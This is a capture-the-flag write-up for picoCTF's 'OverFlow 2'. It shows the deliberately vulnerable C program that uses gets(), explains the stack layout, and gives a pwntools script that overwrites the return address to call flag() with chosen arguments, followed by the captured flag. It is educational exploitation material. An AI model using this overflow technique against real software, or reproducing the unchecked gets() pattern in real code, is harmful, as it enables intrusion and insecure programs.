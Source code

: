 # OverFlow 2 - Points: 250

## description

Now try overwriting arguments. Can you get the flag from this [program](./vuln)? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. [Source](./vuln.c).

## solution

Similar to the previous challenge, we have to overwrite the return address to call the ```flag()``` function.
However, this time, we need to pass the correct arguments, 0xDEADBEEF and 0xC0DED00D, in order to have the flag printed.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As with OverFlow 1, we need to overflow the memory allocated for local variables and overwrite the EBP and return address.
We can use the same technique of filling the char array buffer, then printing a recognisable pattern, such as the alphabet, and checking the value of the EBP register in GDB.

This time, we need to write past the return address to set the arguments for the ```flag()``` function.
For this challenge, it is very useful to know where arguments are on the stack.

```
Local variables
EBP
Return Address
Arguments
```

We want to overwrite the return address of ```vuln()``` with the address of the ```flag()``` function.
When this happens, the current stack will be destroyed and a new stack will be created like so:

During execution of ```vuln()```:

```
vuln - Local variables
vuln - old EBP
vuln - Return Address
previous stack
```

Finished execution of ```vuln()```:

```
vuln - Arguments
previous stack
```

Start execution of ```flag()```:

```
flag - Local variables
flag - old EBP
previous stack
```

However, the flag function expects that the stack is structured as normal:

```
flag - Local variables
flag - old EBP
flag - Return Address
flag - Arguments
previous stack
```

Using a buffer overflow, we can overwrite memory in the previous stack just as we would overwrite the return address.

We can see that the top of the previous stack has to include the following in order:

```
flag - Return Address
flag - Arguments
```

The return address doesn't matter in this case as we are not concerned with where the program attempts to return to once the flag has been printed.
We can overwrite this value with an arbitrary address, such as 0x41414141.

Once we've filled the return address, we overwrite the next 8 bytes with the correct arguments.
When we're finished, stack will looks something like this:

```
flag - Local variables
flag - old EBP
0x41414141
0xDEADBEEF
0xC0DED00D
remaining previous stack
```

## exploit script

This script is pretty much the same as the one used in OverFlow 1.
The difference is that, after printing the buffer and the address of the ```flag()``` function, we add an arbitrary 4 bytes, followed by the two arguments.

```
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 188).encode() + p32(0x080485e6) + ('A' * 4).encode() + p32(0xDEADBEEF) + p32(0xC0DED00D))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{arg5_and_r3turn55897b905}```

